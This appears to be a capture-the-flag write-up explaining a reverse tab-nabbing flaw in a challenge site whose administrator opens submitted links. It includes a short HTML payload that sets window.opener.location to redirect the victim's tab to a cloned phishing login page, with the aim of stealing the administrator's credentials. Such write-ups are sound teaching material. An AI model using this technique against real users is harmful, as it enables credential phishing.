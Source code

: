 The website lets us upload a link, with a sort of 'guarantee' that the administrator will open it to investigate. We'll come back to this later.

![website2](https://user-images.githubusercontent.com/45502375/170441084-2b2b9819-07c8-4ee1-a709-e527f0a4c994.PNG)

When we submit any link (or nothing at all), it shows us the same link we submitted as a hyperlink.

![website3](https://user-images.githubusercontent.com/45502375/170441157-a1bf1c78-f98b-424d-8129-739ad3a6b1c1.PNG)

Upon looking at the source code of *this* version of the website in particular, we see exactly how the hyperlink is formatted.

![website3-source](https://user-images.githubusercontent.com/45502375/170441173-a225e248-ebde-46f9-b674-6f2afae3658f.PNG)

More specifically, we see that it implements ```target='_blank'``` in the hyperlink.

![vuln](https://user-images.githubusercontent.com/45502375/170441194-1ec6fadc-9551-4809-9f14-d74bf8b3f181.PNG)

This is how we're going to exploit the website.

## Exploitation

Using *target='_blank'* allows a Tab Nabbing vulnerability to take place, allowing an attacker to have partial access to the linking page from the linked page.

As explained by Alex Yumashev of JitBit, 

*"The newly opened tab can then change the ```window.opener.location``` to some phishing page. Users trust the page that is already opened, they won't get suspicious."*

You can read the full post about it [here](https://www.jitbit.com/alexblog/256-targetblank---the-most-underestimated-vulnerability-ever/)

Therefore, to exploit this, we have to create a webpage that contains a ```window.opener.location``` variable that can redirect to another malicious webpage.

Given that the administrator is always going to click on the links we submit, we can trick him into handing over his login credentials by faking the Login page and convincing him that he was suddenly logged out.

The first step to this is saving the Login page. We'll present this later as our phishing page.

![exploit2](https://user-images.githubusercontent.com/45502375/170441444-b7deb66f-6070-4416-a4b8-74d9021db730.PNG)

Next, we'll create the malicious page that will redirect to our phishing page using ```window.opener.location```.

To do this, we can use the following HTML code:

```
<!DOCTYPE html>
<html>
	<body>
		<script>
			window.opener.location = "http://127.0.0.1:8000/evilsite.html";
		</script>
	</body>
</html>
```

